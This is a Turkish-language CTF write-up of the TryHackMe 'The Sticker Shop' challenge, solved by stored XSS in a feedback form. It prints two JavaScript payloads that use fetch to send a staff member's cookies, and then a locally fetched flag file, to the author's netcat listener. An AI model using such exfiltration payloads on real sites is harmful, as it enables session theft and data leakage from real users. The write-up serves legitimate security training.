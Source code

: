 ```yaml
---
title: 'TryHackMe | The Sticker Shop WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [xss]
render_with_liquid: false
media_subpath: /images/tryhackme_the_sticker_shop/
image:
  path: logo.webp
---
```


Bu yazımda TryHackMe platformunda bulunan “The Sticker Shop” isimli meydan okumanın çözümünü göstereceğim. Kendisi basit seviye bir meydan okumadır ve yapılması gerekenler kısmen belirtilmiştir.

Bulunması gereken tek bir bayrak olduğundan bu meydan okumayı tek hamlede bitireceğiz. Öncelikle bize bayrağın konumunun verildiğini söylemeliyim. Ancak görüntülemeye çalıştığımızda yetkimiz olmadığı için 401 hatasını veriyor.

![](1.webp){: width="1200" height="500" }

Bayrağı nasıl ele geçirebileceğimizi öğrenmek için web uygulaması hakkında biraz bilgiye sahip olmamız gerekiyor. Ana sayfaya döndüğümüzde bir geri bildirim sayfası ile karşılaşıyoruz.

![](2.webp){: width="1200" height="600" }

Nasıl çalıştığını anlamak için rastgele bir şeyler yazdım ve gönderdim. Sonucunda ise mesajın bir çalışana gönderildiğini ve yakın zamanda kontrol edeceğini öğrendim.

Daha sonra XSS açığının olup olmadığını kontrol etmek için netcat ile 8080 portunu dinlemeye aldım ve aşağıdaki javascript kodunu geri bildirim sayfasıyla gönderdim.

```js
<script>fetch(‘http://10.21.66.61:8080/?=' + document.cookie)</script>
```

Bildirimlerin okunduğu sayfada XSS zafiyeti bulunuyorsa eğer bu javascript kodu ile hem bildirimlerin okunduğu sayfanın yolunu öğrenebilir hem de cookie bilgilerini alabilirdik. Ancak iki bilgiyide elde edemiyoruz.

![](3.webp){: width="1200" height="600" }

En azından XSS zafiyetinin varlığından haberdar olmuş olduk. Anladığım kadarıyla hedef dosyayı yerel ağdan çekmemiz gerekiyor. Bunun içinde XSS zafiyetinden yararlanmalıyız. Javascript’ten pek almadığım için internet üzerinden bir arama yaptım ve aşağıdaki kodu buldum.

```js
<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.21.66.61:8080/?=' + data);
    });
</script>
```

Bu kod personelin sayfasında çalıştığında, önce yerel ağ üzerinden bayrağı alacak daha sonra ise dinlemiş olduğum port’a iletecek.

![](4.webp){: width="1200" height="600" }

Bu şekilde kolay bir meydan okumayı daha bitirmiş olduk. Okuduğunuz için teşekkür ederim.
